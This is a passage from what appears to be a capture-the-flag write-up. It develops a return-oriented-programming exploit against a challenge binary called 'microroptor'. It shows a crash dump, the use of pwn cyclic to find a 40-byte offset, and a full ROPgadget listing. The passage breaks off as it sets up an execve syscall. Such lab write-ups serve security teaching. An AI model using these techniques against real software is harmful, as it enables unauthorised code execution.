 ```bash
*RBP  0x6161616a61616169 ('iaaajaaa')
*RSP  0x7fffffffdda8 ◂— 0x6161616c6161616b ('kaaalaaa')
*RIP  0x5555555551ed ◂— ret
```
```
└─$ pwn cyclic -l kaaalaaa
40
```

## Find Good gadgets

Now let's look for interesting gadgets in the binary using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget). Since we're doing ROP ([Return Oriented Programming](https://fr.wikipedia.org/wiki/Return-oriented_programming)), I'll filter out all gadgets ending with `ret`:

```bash
$ ROPgadget --binary microroptor | grep '; ret'
0x00000000000010d3 : add byte ptr [rax], 0 ; add byte ptr [rax], al ; ret
0x00000000000011e8 : add byte ptr [rax], al ; add byte ptr [rax], al ; leave ; ret
0x00000000000010d4 : add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x00000000000011e9 : add byte ptr [rax], al ; add cl, cl ; ret
0x00000000000011ea : add byte ptr [rax], al ; leave ; ret
0x00000000000010d6 : add byte ptr [rax], al ; ret
0x0000000000001115 : add byte ptr [rax], r8b ; ret
0x000000000000114d : add byte ptr [rcx], al ; pop rbp ; ret
0x00000000000011eb : add cl, cl ; ret
0x0000000000001013 : add esp, 8 ; ret
0x0000000000001012 : add rsp, 8 ; ret
0x0000000000001234 : fisttp word ptr [rax - 0x7d] ; ret
0x0000000000001168 : in eax, 0x48 ; mov dword ptr [rdi], eax ; ret
0x00000000000011ec : leave ; ret
0x0000000000001111 : loopne 0x1179 ; nop dword ptr [rax + rax] ; ret
0x0000000000001148 : mov byte ptr [rip + 0x2ec9], 1 ; pop rbp ; ret
0x000000000000116a : mov dword ptr [rdi], eax ; ret
0x00000000000011e7 : mov eax, 0 ; leave ; ret
0x0000000000001167 : mov ebp, esp ; mov qword ptr [rdi], rax ; ret
0x0000000000001169 : mov qword ptr [rdi], rax ; ret
0x0000000000001166 : mov rbp, rsp ; mov qword ptr [rdi], rax ; ret
0x0000000000001175 : nop ; pop rbp ; ret
0x0000000000001113 : nop dword ptr [rax + rax] ; ret
0x00000000000010d1 : nop dword ptr [rax] ; ret
0x0000000000001112 : nop word ptr [rax + rax] ; ret
0x000000000000110f : or bh, bh ; loopne 0x1179 ; nop dword ptr [rax + rax] ; ret
0x0000000000001244 : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000001246 : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000001248 : pop r14 ; pop r15 ; ret
0x000000000000124a : pop r15 ; ret
0x000000000000116d : pop rax ; ret
0x0000000000001243 : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000001247 : pop rbp ; pop r14 ; pop r15 ; ret
0x000000000000114f : pop rbp ; ret
0x000000000000116f : pop rdi ; ret
0x0000000000001171 : pop rdx ; ret
0x0000000000001249 : pop rsi ; pop r15 ; ret
0x0000000000001245 : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000001165 : push rbp ; mov rbp, rsp ; mov qword ptr [rdi], rax ; ret
0x000000000000100d : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x0000000000001255 : sub esp, 8 ; add rsp, 8 ; ret
0x0000000000001254 : sub rsp, 8 ; add rsp, 8 ; ret
```
And don't forget the syscall gadget (we'll come back to [execve](https://man7.org/linux/man-pages/man2/execve.2.html) later) :
